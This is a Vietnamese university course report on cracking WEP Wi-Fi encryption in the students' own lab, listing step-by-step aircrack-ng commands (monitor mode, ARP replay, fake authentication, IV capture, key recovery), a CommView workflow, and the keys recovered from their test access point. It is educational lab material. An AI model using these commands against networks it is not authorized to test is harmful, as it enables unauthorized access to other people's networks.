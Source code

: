 # **Báo cáo đồ án môn học**
## Môn học: An toàn mạng không dây và di động
## **Đề tài: CRACKING WEP**
### GVHD: **Lê Kim Hùng**
### Sinh viên: **Phạm Lam Khê 17520007 -- Cao Bá Kiệt 17520659**
### **A. Chuẩn bị**
#### **1. Các thiết bị dùng trong phần thực hành**
* Access point: TL-WR740N
* Adapter: TL-WN722N-v2
* Máy ảo: Kali linux-v5.4
#### **2. Các công cụ dùng trong bài thực hành**
* Aireplay-ng – Most popular Perl-based WEP encryption cracking tool
* Aircrack-ng – ARP spoof/injection using aireplay-ng
* Kismet – Network Sniffer, can grab IVs as well
* Airodump – GrabbingIVs
* Commview – Capturing the Packets in Windows
#### **3. Mô Hình**
![sa](https://drive.google.com/uc?id=1aHCm0PJLO8PYOZOUbA4uDkjaSs8BpUC0)
### **B. Thực hiện**
#### **I.Sử dụng Airmon-ng, Airodump-ng, Aireplay-ng, kismet để crack password**
**Các bước thực hiện:**
Bước 1: Tìm kiếm Wireless Adapter
#airmon-ng
Bước 2: Bật chế độ monitor cho wireless adapter
#airmon-ng start wlan0
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó
#airodump-ng wlan0mon 
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?
#aireplay-ng -9 -e [SSID] -a [BSSID] wlan0mon
Bước 5: Bắt các IV được sinh ra từ Access point
#airodump-ng --bssid [bSSID] -c [Channel of AP] -w [tên file capture] wlan0mon
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)
#aireplay-ng -3 -b [bssid] -h [MAC station] wlan0mon
Bước 7: Fake authentication với AP
#aireplay-ng -1 0 -e [SSID] -a [bSSID] -h [MAC station] wlan0mon
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa ? Thường thì khoảng 20000 đối với key length =64bits và 900000 đối với key length=128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key
#Aircrack-ng [tên file capture đã bắt ở trên]

**Thực hiện 4 lần**
|STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|

**Chi tiết các bước thực hiện:**
Bước 1: Tìm kiếm Wireless Adapter
#airmon-ng
![sa](https://drive.google.com/uc?id=1uw_2dOEvhjbrrw39FNjiHV-W9HovPF3k)
Bước 2: Bật chế độ monitor cho wireless adapter
#airmon-ng start wlan0
![sa](https://drive.google.com/uc?id=1klvZX7Vj4l27zTVmuFzCbkknZJ36qB5p)
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó
#airodump-ng wlan0mon 
![sa](https://drive.google.com/uc?id=1e9V3GUB15kzb4qrJDE94RguO1HMLOdPK)
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?
#aireplay-ng -9 -e MrKiett007-a 62:FF:3E:5A:58:C1 wlan0mon
![sa](https://drive.google.com/uc?id=1uxm-idFgvZ5wYasNEURXoABnXALi00dR)
Bước 5: Bắt các IV được sinh ra từ Access point
#airodump-ng –bssid 62:FF:3E:5A:58:C1 -c 1 -w WEPcrack wlan0mon
![sa](https://drive.google.com/uc?id=1TE5gIzEYoWYW751QPy6p0rQitV_cZrUB)
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)
#aireplay-ng -3 -b 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon
![sa](https://drive.google.com/uc?id=1XDJcZXvDwVbhu2oRqu5ueBXxtbrMnjCQ)
Bước 7: Fake authentication với AP
#aireplay-ng -1 0 -e MrKiett007 -a 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon
![sa](https://drive.google.com/uc?id=1vmrTDRr4ZRH7GWkaXZvIz61xFFGcrrRd)
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa? Thường thì khoảng 20000 đối với key length =64bits và 900000 đối với key length=128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key
#Aircrack-ng WEPcrack-01.cap
![sa](https://drive.google.com/uc?id=1Ar-9jMWRtuKf14EEidEA6OFoufx6MUy_)
![sa](https://drive.google.com/uc?id=1_LqFv5njNnMt8-5ANaBGzK4tWKCBUKLO)
* ==> tìm được key : _*KietKhe.@/;

**Làm tương tự với 3 trường hợp còn lại:**
Kết quả:
![sa](https://drive.google.com/uc?id=10MKiqhKt1L1r4MzCQqTGlo3_HmK3f5wD)
![sa](https://drive.google.com/uc?id=1T7wnhI2tkVsIPaS9STrJIO5X4ysK682F)
![sa](https://drive.google.com/uc?id=1rrWt5BUhcwyHifX16vF7ZrZg2WqlhwOr)
#### **II.Sử dụng công cụ Comview và aircrack-ng để tìm password**
**Qui trình thực hiện:**
* Bước 1: Dùng comview để bắt gói tin chứa IV
* Bước 2: Dùng Aircrack-ng để tìm password

 |STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|
**Chi tiết thực hiện:**
Bước 1: Chọn Capture Packet, vào loging để chỉnh dung lượng file log và nơi lưu trữ:
![sa](https://drive.google.com/uc?id=1Q116yxgW5UeJnRkT7PAjwhSzP3LsDaRo)
Bước 2: Vào Nodes và cấu hình scaner mode trên tất cả các channel
![sa](https://drive.google.com/uc?id=1FnH8ipAHtR8JKaZiZOozRRV2uQ-JnYTj)
Bước 3: Chọn Start Capture và quan sát thông tin liên quan đến trạm wifi cần tìm password
![sa](https://drive.google.com/uc?id=1Ld98sXavr3T1i0Bs37KSsLlLvadcgeyh)
Bước 4: Chọn Single channel mode, và chọn channel thích hợp (VD: là channel 2)
![sa](https://drive.google.com/uc?id=147xuSDynLMEtdPk6-v_E_qBasmfqQm7V)
Bước 5: Sau một thời gian đợi số lượng gói tin bắt được đủ lớn thì dừng. Số lượng gói tin cần bắt phụ thuộc vào độ phức tạp của key.
**=>Vào File -> Log viewer và mở file log vừa bắt ở trên lên để đọc file log**
![sa](https://drive.google.com/uc?id=1P7_Tc3PPnm4OXm_3MQsnxc9ak3KRZ2QS)
Bước 6: Chọn File -> export logs -> wireshark/tcpdump format và lưu lại file .cap
![sa](https://drive.google.com/uc?id=1eWIPG86Zxlmq-5vUNfPFJH3rgTkI7v40)
Bước 7: dùng aircrack để tìm password. Copy file .cap đã lưu vào máy kali sau đó dùng lệnh aircack-ng [ten file] 
![sa](https://drive.google.com/uc?id=1HzWajrfP8gYguY2NiI9NfT4OVIL4qQ4P)
==> Đã tìm được password (  _*MraK12.@#/;  )
**Làm tương tự với trường hợp còn lại. Kết quả:**
![sa](https://drive.google.com/uc?id=1rMJasjiPx1NEbXk3CdFRk6SdQnqnh45X)











